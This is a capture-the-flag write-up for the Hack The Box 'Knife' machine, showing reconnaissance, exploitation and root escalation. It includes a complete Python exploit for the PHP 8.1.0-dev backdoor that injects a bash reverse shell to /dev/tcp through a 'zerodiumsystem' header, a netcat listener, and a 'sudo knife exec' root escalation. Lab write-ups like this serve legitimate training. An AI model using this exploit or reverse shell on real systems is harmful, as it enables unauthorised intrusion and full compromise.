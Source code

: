 ```yaml
---
cover: ../../../.gitbook/assets/Knife.png
coverY: 254.84799999999998
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Knife

Add vhost :

```bash
echo '10.129.237.79 knife.htb'|tee -a /etc/hosts'
```

Scan :

```bash
nmap knife.htb
```

Open ports :

* `22/TCP` : SSH
* `80/TCP` : HTTP

Check service behind port `80/TCP` :

```bash
whatweb knife.htb
```

The result is :

```
http://knife.htb [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.237.79], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

Check exploit for `php 8.1.0-dev`. There is an exploit [here](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell\_php\_8.1.0-dev.py). Before executing the Python code, I run `nc -lnvp 1234`.

```py
#!/usr/bin/env python3
import argparse,requests

request = requests.Session()

def checkTarget(url):
	response = requests.get(url)
	for header in response.headers.items():
		if "PHP/8.1.0-dev" in header[1]:
			return True
	return False

def reverseShell(lhost, lport, url):
	payload = "bash -c \"bash -i >& /dev/tcp/" + lhost + "/" + lport + " 0>&1\""
	headers = {"User-Agentt": "zerodiumsystem('" + payload + "');"}
	print(headers)
	injection = request.get(url, headers=headers, allow_redirects=False)

def main():
	url = input("url : ")
	lhost = input("lhost : ")
	lport = input("lport : ")

	if checkTarget(url):
		print("Host is vulnerable")
		reverseShell(lhost, lport, url)
	else:
		print("Host is not available or vulnerable, aborting...")
		exit

if __name__ == "__main__":
	main()
```

When I execute the payload, I enter `http://knife.htb`, `10.10.14.81` and `1234`. I get the reverse shell.

```sh
cat /home/james/user.txt
```

Result of `sudo -l` :

```
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

I can run `sudo /usr/bin/knife` without password. I execute the following command :

```sh
sudo /usr/bin/knife exec -E 'exec "/bin/bash"'
```

I gain root privileges :

```sh
cat root/root.txt
```
